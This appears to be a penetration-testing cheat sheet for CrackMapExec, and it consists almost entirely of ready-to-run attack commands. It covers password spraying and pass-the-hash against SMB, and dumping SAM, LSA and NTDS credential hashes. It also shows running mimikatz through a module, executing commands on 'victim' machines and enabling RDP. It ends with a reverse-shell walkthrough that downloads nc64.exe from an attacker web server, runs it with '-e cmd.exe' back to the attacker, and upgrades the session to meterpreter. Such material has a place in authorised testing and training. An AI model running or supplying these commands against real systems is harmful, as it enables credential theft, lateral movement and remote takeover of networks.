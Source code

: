 # crackmapexec

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

## CrackMapExec full cheat sheet

{% embed url="https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/" %}



## Installation

Install in python environment:

```text
apt-get install -y libssl-dev libffi-dev python-dev build-essential
pip install --user pipenv
git clone --recursive https://github.com/byt3bl33d3r/CrackMapExec
 cd CrackMapExec && pipenv install
 pipenv shell
 python setup.py install
 crackmapexec
```

![](../../../../.gitbook/assets/image%20%28256%29.png)

install on system \(might have some problems\):

```text
apt install crackmapexec
```

the overal syntax is like this:

```text
crackmapexec [protocol] [target] -u [username] -p [password] -H [hash or hash flie]
```

example:

```text
crackmapexec smb 192.168.56.115 -u Administrator -H f4750eeb6dd87b3e60faa9cc23809750 cmd.exe
```

### logs and output files

```text
/root/.cme/logs/
```

### Target Formats

```text
crackmapexec <protocol> ms.evilcorp.org
crackmapexec <protocol> 192.168.1.0 192.168.0.2
crackmapexec <protocol> 192.168.1.0/24
crackmapexec <protocol> 192.168.1.0-28 10.0.0.1-67
crackmapexec <protocol> ~/targets.txt
```

Using Credentials

```text
crackmapexec <protocol> <target(s)> -u username -p password
```

{% hint style="info" %}
When using usernames or passwords that contain special symbols, wrap them in single quotes to make your shell interpret them as a string
{% endhint %}

example:

```text
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'
```

{% hint style="info" %}
if credentials start with ‘-’ use the long format
{% endhint %}

```text
crackmapexec <protocol> <target(s)> -u='-username' -p='-Admin!123@'
```

### Using a credential set from the database

```text
crackmapexec <protocol> <target(s)> -id <cred ID(s)>
```

### Brute Forcing & Password Spraying

```text
crackmapexec <protocol> <target(s)> -u username1 -p password1 password2
crackmapexec <protocol> <target(s)> -u username1 username2 -p password1
crackmapexec <protocol> <target(s)> -u /userlist -p /passlist
crackmapexec <protocol> <target(s)> -u /userlist -H /hashlist
```

### Viewing available modules for a Protocol

```text
cme <protocol> -L
```

#### using modules:

```text
cme <protocol> <target(s)> -M <module name>
```

#### Viewing module options:

```text
cme <protocol> -M <module name> --options
```

#### Using module options:

Module options are specified with the -o flag

```text
cme <protocol> <target(s)> -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug'
```

### enumerate smb status of all systems in a domain

```text
crackmapexec  smb 192.168.56.1/24
```

### pass the hash

```text
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
crackmapexec smb <target(s)> -u username -H NTHASH
```

pass the password

```text
crackmapexec smb 192.168.56.1/24 -u 'hesher' -p 'password123!'
```

## Options & Modules

### dump sam file from all owned machines

```text
--sam
```

### enumerate the domain’s password policy

```text
--pass-pol
```

### dump lsa hashes

```text
--lsa
```

### dump ntds file

```text
--ntds drsuapi
```

### enumerate all AD objects including users and groups by guessing every resource identifier \(RID\)

```text
 --rid-brute
```

### enumerate AVs in the domain

```text
-M enum_avproducts
```

### execute a command on victim machine

```text
-X whoami
```

### execute powershell commands

```text
 -X '$PSVersionTable'
```

### NULL Sessions

```text
crackmapexec smb <target(s)> -u '' -p ''
```

### enum shares

```text
--shares
```

### enumerate the disks on the hosts

```text
--disks
```

### enumerate existing sessions on the hosts

```text
--sessions
```

### list running processes

```text
-X get-process
```

### enum the directory structure

```text
-x "dir c:\\"  --exec-method smbexec

```

### enable RDP

```text
 -M rdp -o ACTION=enable
 xfreerdp /u:"hesher" /v:192.168.56.115:3389
```



## netcat or meterpreter reverse shell

First we setup our web server using Python's SimpleHTTPServer on port 443

```text
python -m SimpleHTTPServer 443
```

upload the file \( download with powershell on victim\)

```text
crackmapexec smb 192.168.56.115 -u 'hesher' -p 'password123!' -X "(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:443/nc64.exe','c:\nc64.exe')"
```

run msf and setup a multi handler

```text
use exploit/multi/handler
set payload windows/x86/shell/reverse_tcp
```

or nc listener

```text
ncat --verbose --listen 443 --keep-open --max-conns 1 --nodns
```

run nc on victim side

```text
crackmapexec smb 192.168.56.115 -u 'hesher' -p 'password123!' -X "c:\nc64.exe  -e cmd.exe 192.168.56.1 443"
```

upgrade to meterpreter session

```text
Ctrl+z
sessions -u [id]
```





